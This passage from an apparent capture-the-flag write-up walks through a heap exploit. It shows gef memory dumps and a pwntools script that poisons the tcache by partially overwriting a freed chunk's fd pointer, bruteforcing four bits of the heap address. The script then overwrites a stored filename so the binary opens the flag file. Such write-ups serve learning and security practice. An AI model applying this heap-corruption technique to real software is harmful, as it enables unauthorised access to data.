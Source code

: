 
And here's after it has been freed:
```
gef> tel 0x0000155555557d30 5
0x0000155555557d30|+0x0000: 0x0000000000000000
0x0000155555557d38|+0x0008: 0x0000000000000271
0x0000155555557d40|+0x0010: 0x0000155555314ca0 -> 0x0000155555557fd0 -> 0x0000000000000000
0x0000155555557d48|+0x0018: 0x0000155555314ca0 -> 0x0000155555557fd0 -> 0x0000000000000000
0x0000155555557d50|+0x0020: 0x000000003f3f3f3f ("????"?)
```


We're going to partial overwrite the 0x50 chunk's fd (after we free two of them), telling malloc to allocate over the stored filename's heap address. Since we haven't leaked anything yet, we need to bruteforce 4 bit of the heap address (the last 1.5 bytes should be constant since this is the first allocated chunk):
```Python
log.info("fill 0x50 tcache")
kill(16,0)
kill(15,0)

spawn('?',40,0,0,0,0x78,'?'*8)

log.info("partial overwrite fd")
payload = p32(0)
payload += p64(0xa0)
payload += p64(0x50)
payload += p16(0x6240)
spawn('P',41,0,0,0,0x58,payload)

spawn('A',42,0,0,0,0x48,"wtf")
log.info("overwriting filename")

payload = "wtf?"
payload += p64(0)
payload += p64(0)
payload += "/home/ziel/flag\x00" if len(sys.argv) > 2 else "./flag\x00"
spawn('Y',43,0,0,0,0x48,payload)
```
```
gef> tel 0x0000155555556250 3
0x0000155555556250|+0x0000: 0x0000000000000000
0x0000155555556258|+0x0008: 0x0000000000000051 ("Q"?)
0x0000155555556260|+0x0010: "/tmp/wtf"
```


After allocating 0x50 chunk once, the next allocation should land before the filename's heap address. Here's the state before binary calls `load` function with overwritten name:
```
->0x15555531cc14                  call   0x15555531ca60
   \->  0x15555531ca60                  jmp    QWORD PTR [rip+0x20255a]        # 0x15555551efc0
      0x15555531ca66                  push   0xe
      0x15555531ca6b                  jmp    0x15555531c970
      0x15555531ca70                  jmp    QWORD PTR [rip+0x202552]        # 0x15555551efc8
      0x15555531ca76                  push   0xf
      0x15555531ca7b                  jmp    0x15555531c970
------------------- arguments (guessed) ----------
0x15555531ca60 (
   $rdi = 0x0000155555556260->0x660067616c662f2e ("./flag"?),
   $rsi = 0x000015555531de18->0x002f706d742f0072 ("r"?),
   $rdx = 0xfffffffffffffc3d,
   $rcx = 0x0000000000000000
)
------------------- threads ----------------------
[#0] Id 1, Name: "ld-2.28.so", stopped, reason: BREAKPOINT
------------------- trace ------------------------
```